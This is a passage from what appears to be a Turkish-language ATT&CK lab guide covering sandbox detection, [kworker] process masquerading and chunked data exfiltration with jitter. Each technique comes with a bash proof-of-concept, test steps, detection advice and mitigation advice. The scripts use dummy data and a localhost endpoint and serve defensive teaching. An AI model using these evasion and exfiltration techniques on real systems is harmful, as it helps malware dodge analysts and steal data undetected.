* **Linux:** Container tespiti için kök dizindeki `/.dockerenv` dosyasının varlığı, `/proc/1/cgroup` dosyasının içindeki `docker` veya `kubepods` stringleri kontrol edilir. Hypervisor tespiti için `dmesg` logları, `dmidecode` çıktıları veya donanımın limitleri (CPU,RAM vb.) sorgulanır.
* **Windows:** Hypervisor ve sandbox tespiti genellikle WMI sorguları (`Win32_ComputerSystem`), VMware/VirtualBox'a ait spesifik MAC adres blokları, registry anahtarları (`HKLM\HARDWARE\Description\System`) veya donanımın windows bir cihaza göre düşük özellikli olması (örn. RAM < 4GB gibi)üzerinden gerçekleştirilir.

#### Script (evasion_check.sh):

```bash
#!/bin/bash
#T1613 - Container and Resource Discovery PoC (Linux)

echo "Anti-Analysis ve Discovery testleri basliyor..."

#Container kontrolü
if [ -f /.dockerenv ]; then
    echo ".dockerenv dosyasi bulundu. Container ortamindayiz."
    is_sandbox=1
elif grep -qE "(docker|lxc|kubepods)" /proc/1/cgroup 2>/dev/null; then
    echo "/proc/1/cgroup icinde container izleri bulundu."
    is_sandbox=1
else
    echo "Container' da oldugumuza dair bir isaret yok ortam temiz."
    is_sandbox=0
fi

#Donanım özelliklerinin testi
CPU_CORES=$(nproc 2>/dev/null)
RAM_TOTAL_KB=$(grep MemTotal /proc/meminfo | awk '{print $2}')
RAM_TOTAL_GB=$((RAM_TOTAL_KB / 1024 / 1024))

echo "Donanim Profili: CPU Cores = $CPU_CORES | RAM = ${RAM_TOTAL_GB}GB"

if [ "$CPU_CORES" -lt 2 ] || [ "$RAM_TOTAL_GB" -lt 2 ]; then
    echo "Donanim kaynaklari supheli sandbox'ta olabiliriz."
    is_sandbox=1
fi

#Karar anı
echo "---------------------------------------------------"
if [ "$is_sandbox" -eq 1 ]; then
    echo "Payload calistirilmicak analiz ortami tespit edildi."
    exit 1
else
    echo "Payload calistiriliyor ortam dogrulandi."
    #Asıl zararlı faaliyetleri burada başlar
fi

```

## Test

1. Scripti gerçek bir cihazda çalıştır ve payload çalıştırılıyor sonucunu gör.
2. Aynı scripti sistemdeki bir Docker container içinde test et:
`docker run --rm -v $(pwd):/mnt ubuntu bash /mnt/evasion_check.sh`
3. Çıktıda doğrudan `/.dockerenv` dosyasının tespit edildiğini ve "Analiz ortami tespit edildi. Zararli moduna geciyor" mesajının basıldığını doğrulayıp farkı gör.

<div align="center">
  
  <br>
  <em>Şekil 6: Sandbox tespiti ve evasion davranışı</em>
</div>

## Detection

Zararlı yazılımların bu keşif komutlarını tespit etmek SOC ekipleri için erken uyarıdır:

* **Command-Line Telemetry:** Sistemde aniden `wmic`, `systeminfo`, `dmidecode`, `nproc` veya `lscpu` gibi donanım profilleme araçlarının peş peşe çalıştırılması "Reconnaissance / Discovery" davranışı olarak loglanmalıdır.
* **File Access Monitoring:** Sıradan bir sürecin `/.dockerenv`, `/proc/1/cgroup` veya `/sys/class/dmi/id/` gibi donanım parametrelerinin tutulduğu dizinlere yönelik erişim istekleri  IOC olarak işaretlenmeli ve risk skoru artırılmalıdır.
* **API Monitoring:** Gelişmiş zararlılar komut satırı kullanmak yerine doğrudan işletim sistemi API'lerini (örn. Windows'ta `GetSystemInfo`, `GlobalMemoryStatusEx`) çağırarak bu verileri çeker. EDR'lar bu API çağrılarının sıklığını izlemelidir.

## Mitigation

Bu tekniği ağ veya sistem seviyesinde engellemek işletim sisteminin mimarisini bozacağı için savunma stratejisi daha çok analiz ortamının sıkılaştırması üzerine kurulmalıdır.:

* **Sandbox Hardening :** Kurum içi malware analiz ortamları kurulurken varsayılan VM ayarları mutlaka gizlenmeli ve sanal makinelere gerçek bir kullanıcı profili oluşturacak düzeyde gerçekçi donanım parametreleri verilmelidir.
* **Honeypot :** Production network'te bazı kritik sunuculara sahte analiz ortamı belirteçleri yerleştirilebilir. Bu sayede ağa sızan zararlı yazılım kendini bir analiz ortamında sanarak otomatik olarak devre dışı kalır.

# 7. T1036.005 - Masquerading: Match Legitimate Name or Location


## YAML 

```yaml
title: "Masquerading: Match Legitimate Name or Location"
t_id: "T1036.005"
tactic:
  - "Defense Evasion"
impact:
  - "Defense Evasion"
platform: "Linux, Windows, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-25"
detection_level: "Medium"
required_access: "User"
description: "Zararlı dosyaların executable isimlerini veya dosya yollarını yasal sistem process'leriyle  aynı olacak şekilde ayarlayarak Process Explorer veya EDR loglarında normal sistem trafiği gibi görünmesi ve gözden kaçması."

```

## PoC - Masquerading

Saldırganlar sisteme indirdikleri payload'lara `malware.elf` veya `reverse_shell.sh` gibi dikkat çekici isimler vermez. Bunun yerine işletim sisteminde alışık olunan varsayılan isimler vererek var olan noise'dan faydalanırlar.

Bu PoC, Linux sistemlerde sıklıkla görülen bir Threat Actor davranışını simüle eder: Bash'in yerleşik `exec -a` özelliğini kullanarak zararlı bir süreci ram üzerinde yasal bir Linux kernel worker thread olan `[kworker]` ismiyle çalıştırarak ps çıktısında gizlenmek.

### Platform Farkları

Masquerading tekniği tüm işletim sistemlerinde vazgeçilmezdir ancak taklit edilen process ve yollar değişir.

* **Linux:** Genellikle `[kworker/u4:2]`, `systemd`, `(sd-pam)` veya `bash` gibi isimler taklit edilir. Payload'lar `/dev/shm`, `/tmp` veya `/var/tmp` gibi RAM disk veya geçici dizinlerden çalıştırılır.
* **Windows:** Genellikle `svchost.exe`, `lsass.exe`, `explorer.exe` veya `taskhostw.exe` taklit edilir. Zararlı dosya System32 yerine `C:\Users\Public`, `C:\ProgramData` veya `C:\Windows\Temp` gibi herkesin yazabildiği dizinlerden tetiklenir.

#### Script (masquerading_poc.sh):

```bash
#!/bin/bash
#T1036.005 - Masquerading PoC (Linux) - KESIN COZUM

echo "Masquerading (Gizlenme) saldirisi basliyor..."

PAYLOAD_DIR="$HOME/.hidden"
PAYLOAD_FILE="$PAYLOAD_DIR/payload"

mkdir -p "$PAYLOAD_DIR"

#Payload olarak sistemdeki sleep binary'sini kullaniyoruz
cp /bin/sleep "$PAYLOAD_FILE"
chmod +x "$PAYLOAD_FILE"

echo "Payload hazirlandi: $PAYLOAD_FILE"

#Sahte name
FAKE_PROCESS_NAME="[kworker/u4:2-events]"

echo "Payload, $FAKE_PROCESS_NAME ismiyle arka planda baslatiliyor..."

bash -c "exec -a '$FAKE_PROCESS_NAME' '$PAYLOAD_FILE' 600" &

sleep 1 

echo "Islem tamam. ps' te payload'u arayin:"
echo "--------------------------------------------------------"
ps aux | grep -v grep | grep "kworker" | sort -k1 -r | head -n 5
echo "--------------------------------------------------------"
echo "Yukaridaki listede USER yetkisiyle calisan surec bizim FAKE process'imizdir."
```

## Test

1. Hedef makinede `masquerading_poc.sh` betiğini çalıştır.
2. Terminal çıktısında, orijinal `kworker` süreçleri ile scriptin yarattığı sahte `[kworker/u4:2-events]` sürecinin `ps aux` çıktısında nasıl yan yana ve ayırt edilemez durduğunu doğrula.

<div align="center">
  
  <br>
  <em>Şekil 7: Fake process'in yasal kworker' lar arasına gizlenmesi</em>
</div>

## Detection

Bir EDR veya SOC analisti sadece Process Name odaklanırsa bu zararlıyı gözden kaçırır. Threat Hunting tespit için Process Lineage ve Execution Path parametrelerine bakılır:

* **Process Parent/Child İlişkisi (Lineage):** Gerçek bir Linux `kworker` süreci Kernel tarafından başlatılır. Bizim PoC'mizde ise sahte kworker'ın parent'ı `bash` veya `sshd` olacaktır. Bir kworker'ın User-Space bir uygulamadan türemesi red flag olarak işaretlenmelidir.
* **Execution Path Telemetry:** Windows'ta `svchost.exe` her zaman `C:\Windows\System32` dizininden çalışır. Bir EDR, `C:\Users\Public\svchost.exe` path'inden gelen bir execution gördüğünde anında alert üretmelidir. Aynı durum Linux'ta `/dev/shm` veya `/tmp` altından kworker isimli bir dosyanın çalıştırılması için de geçerlidir.
* **SID/UID Kontrolü:** Sistem servisleri  `SYSTEM` veya `root` yetkisiyle çalışır. Yasal bir sistem sürecinin standart bir "User" yetkisiyle ramde çalışması kural ihlalidir.

## Mitigation

İsim taklidini işletim sistemi seviyesinde tamamen engellemek mümkün değildir ancak risk yüzeyi şu yöntemlerle daraltılır:

* **Execution Restrictions:** Linux ortamında `/tmp` ve `/dev/shm` (RAM disk) dizinleri `/etc/fstab` üzerinden mutlaka `noexec` parametresi ile mount edilmelidir. Bu sayede saldırgan payload'u oraya atsa bile işletim sistemi dosyayı execute etmez. Windows tarafında AppLocker veya WDAC ile Public ve Temp dizinlerinde binary execute engellenmelidir.
* **Code Signing :** Windows sistemlerde EDR üzerinden "Sadece Microsoft tarafından dijital olarak imzalanmış süreçlerin sistem dosyası ismini alabileceği" yönünde sıkı kurallar yazılabilir.

# 8. T1030 - Data Transfer Size Limits
 
## YAML

```yaml
title: "Data Transfer Size Limits"
t_id: "T1030"
tactic:
  - "Exfiltration"
impact:
  - "Data Exfiltration"
platform: "Linux, Windows, macOS"
author: "Muzaffer Murat Kilit"
creation_date: "2026-06-25"
detection_level: "High"
required_access: "User"
description: "Saldırganların ağ üzerindeki IDS/IPS veya DLP sistemlerinin volume-based alert'lara takılmamak için data exfiltration yaparken datayı chunk'lar halinde bölerek ve aralara jitter koyarak dışarı aktarması."

```

## PoC - Data Transfer Size Limits

Ransomware vakalarında saldırgan 5 GB boyutundaki bir veritabanı yedeğini tek bir TCP oturumunda C2 sunucusuna göndermeye kalkarsa ağdaki DLP veya NDR çözümleri "Massive Outbound Traffic" alarmı üretir ve bağlantıyı keser.

Bunu aşmak için veriler ufak boyutlu parçalara bölünür ve aralara rastgele süreler eklenerek normal HTTPS trafiği arasına gizlenilmeye çalışılır.

### Platform Farkları

Chunking mantığı platform bağımsızdır, ancak kullanılan LotL tool'ları farklılık gösterir.

* **Linux / macOS:** Sistemde yerleşik olarak bulunan `split`, `tar` veya `dd` komutları kullanılarak dosyalar byte veya satır bazında kolayca parçalanabilir. Sızdırma işlemi genellikle `curl`, `wget` veya `nc` üzerinden yapılır.
* **Windows:** Genellikle PowerShell (`[System.IO.File]::ReadAllBytes` metodu ile veriyi byte array'lere bölme) kullanılır. Ayrıca sisteme yüklenen arşiv araçları veya yerleşik `makecab` aracı ile dosyalar multi-volume arşivlere bölünerek sızdırılır.

#### Script (chunked_exfiltration.sh):

```bash
#!/bin/bash
#T1030 - Data Transfer Size Limits PoC (Linux)

echo "Exfiltration basliyor..."

#Staging
STAGING_DIR="/tmp/exfil_staging"
DUMMY_DATA="$STAGING_DIR/sensitive_db.bak"

mkdir -p "$STAGING_DIR"
# urandom kullanarak dummy data uret
dd if=/dev/urandom of="$DUMMY_DATA" bs=1M count=10 2>/dev/null
echo "Sızdırılıcak dosya hazırlandı: $DUMMY_DATA"

#Chunking
echo "Dosya parcalara bolunuyor..."
split -b 2M "$DUMMY_DATA" "$STAGING_DIR/chunk_"

#xfiltration

for chunk in "$STAGING_DIR"/chunk_*; do
    #Random jitter
    JITTER=$((RANDOM % 3 + 1))
    
    echo " -> $chunk gonderiliyor... (Bekleme: $JITTER sn)"
    
    #Cikimsi
    curl -s -X POST --data-binary @"$chunk" http://127.0.0.1:8000/upload
    
    sleep "$JITTER"
done

echo "Exfiltration tamamlandi."

#Temizlik
rm -rf "$STAGING_DIR"

```

## Test

1. Hedef sistemde `chunked_exfiltration.sh` scriptini çalıştır.
2. Scriptin önce 10 MB'lık büyük bir dosya oluşturduğunu, ardından bunu `chunk_aa`, `chunk_ab` gibi küçük dosyalara böldüğünü gör.
3. Döngü sırasında dosyaların aralara rastgele gecikmeler serpiştirilerek tek tek gönderdiğini gör.

<div align="center">
  
  <br>
  <em>Şekil 8: Chunk edilmiş verilerin araya jitter koyularak C2 sunucusuna sızdırılması</em>
</div>

## Detection

Split edilmiş verilerin yavaş yavaş zamanla sızdırılması tespiti zorlaştırır. Tespit için Network ve endpoint telemetrisinin ilişkilendirilmesi gerekir:

* **Network Beaconing ve Pattern Analizi:** NDR/IDS sistemleri, aynı hedef IP adresine veya domaine, eşit boyutlu  ve periyodik POST/PUT istekleri gönderilmesini "Beaconing" veya "Chunked Exfiltration" davranışı olarak işaretlemelidir.
* **Process Lineage (Süreç Ağacı):** Endpoint'te `split`, `tar`, `zip` gibi arşivleme araçlarının çalıştırılmasından hemen sonra aynı dizinden `curl`, `wget`, `powershell.exe` gibi ağ araçlarının çalıştırılması  EDR sistemlerinde yüksek öncelikli bir IOC  üretmelidir.
* **DLP Threshold Tuning:** Sadece "1 dakikada 500 MB veri transferi" gibi dar kurallar yerine, "Aynı kullanıcı veya process tarafından 1 saat içinde dışarı aktarılan toplam veri miktarı" gibi daha etkili kurallar yazılmalıdır.

## Mitigation

Bu tekniğin etkisini azaltmak, ağın dışarıya açıklığına bağlıdır:

* **Egress Filtering :** İç ağdan internete doğru giden tüm trafik "Default Deny" mantığıyla yapılandırılmalıdır. Sunucular sadece ihtiyaç duydukları portlardan sadece bilinen ve whitelist'te bulunan IP adresleriyle haberleşebilmelidir.
* **Traffic Shaping / Rate Limiting:** ICMP, DNS veya standart dışı portlar üzerinden veri sızdırılmasını engellemek için spesifik protokollerin bant genişlikleri firewall seviyesinde sınırlandırılmalıdır.
* **Data at Rest Encryption:** Kritik veritabanları ve dosyalar disk üzerinde şifreli olarak tutulmalıdır. Saldırgan veriyi dışarı sızdırmayı başarsa bile verilerin güvenliği sağlanmış olacaktır.

